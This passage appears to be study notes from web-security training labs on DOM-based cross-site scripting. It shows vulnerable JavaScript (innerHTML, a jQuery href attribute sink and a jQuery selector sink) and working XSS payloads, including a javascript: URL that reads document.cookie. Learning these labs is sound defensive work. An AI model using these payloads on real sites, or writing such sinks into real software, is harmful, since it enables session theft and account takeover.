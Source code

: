 - This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

- Vulnerable JS script for this lab is

```javascript
function doSearchQuery(query) {
  document.getElementById("searchMessage").innerHTML = query;
}
var query = new URLSearchParams(window.location.search).get("search");
if (query) {
  doSearchQuery(query);
}
```

- Many ways to do; In search box,

```html
<img src="x" onerror="alert(1)" />
```

---

## Lab - 6: DOM XSS in jQuery anchor href attribute sink using location.search source

```javascript
$(function () {
  $("#backLink").attr(
    "href",
    new URLSearchParams(window.location.search).get("returnPath")
  );
});
```

```
GET /feedback?returnPath=javascript:alert(document.cookie) HTTP/1.1
```

Then click `back` button.

---

## Lab - 7: DOM XSS in jQuery selector sink using a hashchange event

```javascript
$(window).on("hashchange", function () {
  var post = $(
    "section.blog-list h2:contains(" +
      decodeURIComponent(window.location.hash.slice(1)) +
      ")"
  );
  if (post) post.get(0).scrollIntoView();
});
```
